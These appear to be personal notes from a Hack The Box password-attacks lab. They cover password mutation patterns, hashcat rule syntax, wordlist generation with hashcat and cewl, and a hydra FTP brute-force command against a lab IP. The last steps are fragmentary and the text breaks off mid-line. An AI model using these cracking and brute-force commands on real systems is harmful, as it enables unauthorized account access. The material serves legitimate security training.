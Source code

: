 |**Description**|**Password Syntax**|
|---|---|
|First letter is uppercase.|`Password`|
|Adding numbers.|`Password123`|
|Adding year.|`Password2022`|
|Adding month.|`Password02`|
|Last character is an exclamation mark.|`Password2022!`|
|Adding special characters.|`P@ssw0rd2022!`|

#### hashcat
|**Function**|**Description**|
|---|---|
|`:`|Do nothing.|
|`l`|Lowercase all letters.|
|`u`|Uppercase all letters.|
|`c`|Capitalize the first letter and lowercase others.|
|`sXY`|Replace all instances of X with Y.|
|`$!`|Add the exclamation character at the end.|
#### Generating Rule-based Wordlist

```shell-session
AhmaDb0x@htb[/htb]$ hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
AhmaDb0x@htb[/htb]$ cat mut_password.list
```

#### Hashcat Existing Rules

```shell-session
AhmaDb0x@htb[/htb]$ ls /usr/share/hashcat/rules/
```

```shell-session
AhmaDb0x@htb[/htb]$ cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
AhmaDb0x@htb[/htb]$ wc -l inlane.wordlist

326
```

1. Take password.list and custom.rule to create a mutation file `hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list`
2. Remove all passwords shorter than 10 with `sed -ri '/^.{,9}$/d' mut_password.list`
3. Take the first 7000  `head -7000 mut_password.list `> `7000mut_password.list`
4. Bruteforce FTP `hydra -l sam -P ./7000mut_password.list ftp://10.129.202.64 -t 64`
5. with B-b , grep B 94k_mutated.list > mutated_B.lis 
6. -t48
I propose a new task:
